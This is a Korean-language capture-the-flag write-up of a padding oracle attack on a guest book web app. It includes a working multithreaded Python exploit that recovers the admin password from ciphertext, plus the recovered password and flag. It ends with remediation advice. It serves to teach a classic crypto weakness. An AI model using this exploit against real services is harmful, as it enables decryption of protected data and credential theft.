



# S3 · Padding Oracle

### 1. 문제 확인

방명록(Guest Book) 서비스로, 글 목록 조회·로그인·복호화 요청 기능이 있다. 주요 엔드포인트는 다음과 같다.

- `GET /gb/<idx>` — 방명록 글 1개 조회 (암호문 `enc_data` 포함)
- `GET /secure/decrypt` — `token`·`e_data`를 복호화해 권한을 확인
- `GET /secure/secret?password=` — 비밀번호가 맞으면 FLAG 반환

`admin` 글에는 관리자 비밀번호가 암호문으로 들어 있고, FLAG는 그 비밀번호를 알아야 받을 수 있다. 접속하면 인덱스는 아래와 같이 응답한다.

<p align="center"></p>

### 2. 코드 분석 — 취약점 원인

**(1) 고정 IV AES-CBC** — `Util/AESCrypto.py`

```python
iv = bytes([0x00] * 16)                 # IV가 0x00*16으로 고정
self.crypto = AES.new(key, mode, iv)    # AES-CBC

def decrypt(self, enc_text):
    dec_data = self.crypto.decrypt(enc_text)
    dec_text = unpad(dec_data, self._block_size)   # 패딩이 틀리면 ValueError 발생
    return dec_text
```

`decrypt`는 복호화 후 `unpad`으로 PKCS#7 패딩을 검사·제거한다. 패딩 형식이 틀리면 `ValueError`가 난다.

**(2) 패딩 오라클** — `app.py /secure/decrypt`

```python
data = json.loads(AESCrypto().decrypt(base64.b64decode(token)))   # 우리가 보낸 token 복호화
...
except ValueError as e:
    return jsonify({"status": "error", "result": {"message": "ValueError"}})   # 패딩 실패만 이 메시지
```

패딩이 틀렸을 때만 `"ValueError"` 메시지가 돌아온다. 즉 **패딩 통과/실패를 응답으로 구분**할 수 있다. 이것이 패딩 오라클이다.

**(3) 암호문 노출** — `app.py /gb/<idx>`

```python
article = gGuestBook.getGuestBook(idx)
return jsonify({"status": "success", "result": {"article": article}})   # enc_data 그대로 반환
```

`GET /gb/1`로 `admin` 글의 암호문(`enc_data`)을 누구나 받을 수 있다.

### 3. 공격 원리 — 패딩 오라클

서버에 `[가짜블록] + [진짜블록]` 두 블록을 `token`으로 보내면, CBC 특성상 진짜블록의 평문은 다음과 같이 계산된다.

```
가짜평문 = 중간값(진짜블록을 AES로 푼 고정값) XOR 가짜블록
```

- 가짜블록의 **마지막 1바이트(보낸값)**를 `0~255`로 바꿔 보낸다.
- 가짜평문의 끝이 `0x01`이 되는 순간에만 패딩이 통과한다(`ValueError` 미발생).
- 통과하면 `0x01 = 중간값 XOR 보낸값` 이므로 **`중간값 = 보낸값 XOR 0x01`** 로 한 바이트를 역산한다.
- 패딩 목표를 `0x01 → 0x02 0x02 → 0x03 0x03 0x03 …`로 올리며 16바이트를 모두 복원한다.
- 마지막으로 **`진짜평문 = 중간값 XOR 진짜앞블록`** 으로 실제 글자를 얻는다(첫 블록의 앞은 IV `0x00*16`).

복원되는 평문은 아래 구조이고, 비밀번호 8글자는 **2·3번째 블록**에 걸쳐 있다.

```
{"content": "The password is: <비밀번호>", "author": "admin"}
```

공격 흐름:

```
GET /gb/1 로 enc_data 확보
 → 패딩 오라클로 블록 2·3 복호화 → 비밀번호 복원
 → GET /secure/secret?password=<비밀번호> → FLAG
```

### 4. 익스플로잇 작성

실서버는 요청이 많으면 연결을 끊어서(`Connection reset by peer`), **재시도 + 동시 요청(24스레드)**를 넣고 비밀번호가 걸친 **블록 2·3만** 복호화한다.

```python
#!/usr/bin/env python3
import sys, base64, time, requests
from concurrent.futures import ThreadPoolExecutor

BS = 16
WORKERS = 24
BASE = sys.argv[1].rstrip("/")

session = requests.Session()
session.mount("http://", requests.adapters.HTTPAdapter(
    pool_connections=WORKERS, pool_maxsize=WORKERS * 2))

def oracle(e_data_b64, token_bytes):                 # 패딩 통과면 True
    params = {"e_data": e_data_b64,
              "token": base64.b64encode(token_bytes).decode(), "sig": "x"}
    for attempt in range(8):                         # 연결 끊기면 재시도
        try:
            r = session.get(f"{BASE}/secure/decrypt", params=params, timeout=15)
            return (r.json().get("result") or {}).get("message") != "ValueError"
        except requests.exceptions.RequestException:
            time.sleep(0.3 + attempt * 0.3)
    raise RuntimeError("서버 연결 반복 실패")

def recover_intermediate(e_data_b64, c_target, pool):
    inter, forged = bytearray(BS), bytearray(BS)
    for pad in range(1, BS + 1):
        idx = BS - pad
        for k in range(idx + 1, BS):
            forged[k] = inter[k] ^ pad               # 뒤칸을 끝=pad 가 되게 세팅
        def test(b):                                 # b = 보낸값
            f = bytearray(forged); f[idx] = b
            return b if oracle(e_data_b64, bytes(f) + c_target) else None
        hits = [x for x in pool.map(test, range(256)) if x is not None]  # 동시 전송
        chosen = None
        if pad == 1:                                 # 0x01 오탐 방지
            for b in hits:
                f = bytearray(forged); f[idx] = b; f[idx - 1] ^= 0xFF
                if oracle(e_data_b64, bytes(f) + c_target):
                    chosen = b; break
            if chosen is None and hits: chosen = hits[0]
        else:
            chosen = hits[0]
        if chosen is None: raise RuntimeError(f"pad={pad} 실패")
        inter[idx] = chosen ^ pad                    # 중간값 = 보낸값 XOR pad
    return bytes(inter)

def main():
    art = session.get(f"{BASE}/gb/1", timeout=15).json()["result"]["article"]
    e_data_b64 = art["enc_data"]
    enc = base64.b64decode(e_data_b64)
    blocks = [enc[i:i + BS] for i in range(0, len(enc), BS)]
    with ThreadPoolExecutor(max_workers=WORKERS) as pool:
        i2 = recover_intermediate(e_data_b64, blocks[1], pool)
        p2 = bytes(a ^ b for a, b in zip(i2, blocks[0]))   # 진짜평문 = 중간값 XOR 앞블록
        i3 = recover_intermediate(e_data_b64, blocks[2], pool)
        p3 = bytes(a ^ b for a, b in zip(i3, blocks[1]))
        print(f"  [블록2] {p2!r}\n  [블록3] {p3!r}")
    password = (p2 + p3).decode("latin-1").split("password is: ", 1)[1].split('"', 1)[0]
    print(f"[+] 비밀번호: {password}")
    r = session.get(f"{BASE}/secure/secret", params={"password": password}, timeout=15)
    print(f"[FLAG] {(r.json().get('result') or {}).get('secret')}")

if __name__ == "__main__":
    main()
```

### 5. 공격 실행 및 결과 확인

```bash
python3 solve_fast.py http://<VM_주소:포트>
```

블록 2·3을 각각 복호화해 관리자 비밀번호 **`p45$W0Rd`**를 복원했다. (블록2 끝 `p4` + 블록3 앞 `5$W0Rd`)

<p align="center"></p>

`/gb/1`에서 받은 암호문만으로 키 없이 비밀번호를 복원했다.

### 6. FLAG 확인

복원한 비밀번호를 `/secure/secret`에 넣으면 서버가 `password == admin_password`를 확인하고 FLAG를 반환한다.

```python
if password == admin_password:
    return jsonify({"status": "success",
                    "result": {"secret": gGuestBook.getFileContents("flag.txt", "r", 44)}})
```

```
GET /secure/secret?password=p45$W0Rd
→ DH{0cfeeb1ded546cb87e43caf2df2c6ec078c559b5}
```

<p align="center"></p>

**취약점 원인:** 고정 IV AES-CBC 복호화에서 패딩 오류(`ValueError`)만 다른 응답으로 노출되어 패딩 오라클이 성립하고, 공개된 `enc_data`를 그 오라클로 복호화해 관리자 비밀번호를 복원할 수 있었다. 대응은 복호화 에러 메시지 통일과 `AES-GCM`·Encrypt-then-MAC 같은 인증 암호화 도입이다.
